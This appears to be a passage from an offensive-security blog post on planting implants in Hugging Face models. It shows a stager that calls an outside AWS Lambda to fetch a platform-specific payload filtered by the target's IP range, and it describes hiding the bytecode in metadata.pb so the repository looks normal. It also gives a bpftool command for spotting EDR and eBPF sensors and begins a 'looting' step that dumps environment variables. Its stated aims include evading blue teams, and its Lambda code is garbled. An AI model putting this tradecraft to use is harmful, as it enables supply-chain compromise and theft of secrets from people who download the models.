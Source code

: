 
I use staging code to complicate detections, evade blue teams and avoid accidentally serving full implants to anyone.
When we do the following:

 ```r = requests.get("https://lambda.on.aws/", headers={'X-Plat': sys.platform})```,

 what we are doing is sending the system architecture (mac, linux, etc) to a AWS lambda, which decides based on the IP range of the incoming request whether to serve it the mac, linux or no payload at all. 

If you’re just bug bounty hunting, you can skip this and just dump something like env vars, which will prove sensitive data exfil/codex.  
Because I am not a full time bug bounty hunter, and like taking things to the nth, I usually took the time to import my target's IP range into my scope.

**Here’s a sample from the code on the lambda, to show the logic** 

```
#since this is on Hugging Face, we don’t want poor randoms to execute it, or to make it too easy for threat intelligence teams:

fn ip_in_cidr(ip: &IpAddr, cidr: &str) -> bool {
    let cidr = IpCidr::from_str(cidr).unwrap();
    cidr.contains(*ip)
#if its in range, serve implant based on x-plat header
Else # Serve em something else!
``` 


## Deploying

This is just a matter of using the huggingface CLI and basically performing a `git commit`. 
When the model like above goes into the repo, it looks like a normal model, there is no `training.bin` or weird looking python execs visible, that’s all hidden away as bytecode in `metadata.pb`.

You can see in this gif as we skim around the files, it looks totally normal, albeit, in this example model, - the smallest file size that I messed with, - its very small for a ML model.  In the repo, you’ll find other examples of varying sizes, and you can do your own legwork to put it in bigger models if you wish. 

![twitter](/assets/img/post7/builtmodel.gif){: .mx-auto.d-block :} 

 
Whether you’re waiting on a wateringhole to come in, or you’ve infected a model that a confused organization uploaded, you’re waiting to loot, so let's take a look at that: 

# Looting 

The first step to looting is to work out what environment you’re in. There’s a good chance it's a notebook (`ipynb` files are a good giveaway) or in a kubernetes pod, (of which things like the process ID’s listed can be a giveaway). 

Great, this is actually a good thing, the more constrained environments like these usually have less security controls. 
If you already have root, (common in ML environments, since its a lot of ephemeral services) check for eBPF detection tools, which are really one of the few kinds of runtime protection agents you’ll kind in these kinds of environments: 
This will show kprobes for security tooling, helping you identify the targets capabilities:

`bpftool prog list | grep -E 'trace|cilium|crowdstrike|falcon|tetragon|tracepoint` 

### Jupyter:  

```
$> env  